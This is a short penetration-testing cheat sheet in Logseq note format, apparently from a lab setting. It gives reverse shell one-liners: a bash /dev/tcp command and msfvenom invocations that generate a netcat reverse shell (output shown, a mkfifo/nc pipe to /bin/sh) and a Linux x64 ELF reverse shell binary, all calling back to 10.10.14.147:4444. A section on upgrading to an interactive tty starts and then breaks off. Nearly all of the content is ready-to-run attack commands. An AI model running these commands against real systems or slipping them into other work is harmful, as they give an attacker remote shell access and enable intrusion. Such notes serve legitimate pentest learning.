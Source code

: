 ### One-liner reverse shell
For more reverse shell examples [check this out](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
	- #### Just `bash`
	  logseq.order-list-type:: number
	  ```bash
	  bash -c "bash -i >& /dev/tcp/10.10.14.147/4444 0>&1"
	  ```
	- #### Generate one-liner reverse shells with `msfvenom`
	  logseq.order-list-type:: number
		- List payloads
		  logseq.order-list-type:: number
		  ```bash
		  msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
		  ```
		- Use `netcat` regardless if it's the GNU ore the openBSD (the one with `-e` option) implementation
		  logseq.order-list-type:: number
		  ```bash
		  ┌──(crazybyte㉿kali)-[~]
		  └─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.147 lport=4444
		  [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
		  [-] No arch selected, selecting arch: cmd from the payload
		  No encoder specified, outputting raw payload
		  Payload size: 90 bytes
		  mkfifo /tmp/zmko; nc 10.10.14.147 4444 0</tmp/zmko | /bin/sh >/tmp/zmko 2>&1; rm /tmp/zmko
		  ```
	- #### Create ELF x64 reverse shell
	  logseq.order-list-type:: number
	  ```bash
	  msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.147 lport=4444 -f elf > rv
	  chmod +x rv
	  ```
	  `nc` needs to be available and reaceable from `$PATH`.
- #### Upgrade from a simple shell to a fully interactive tty
  Additional info can be found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
	- 1.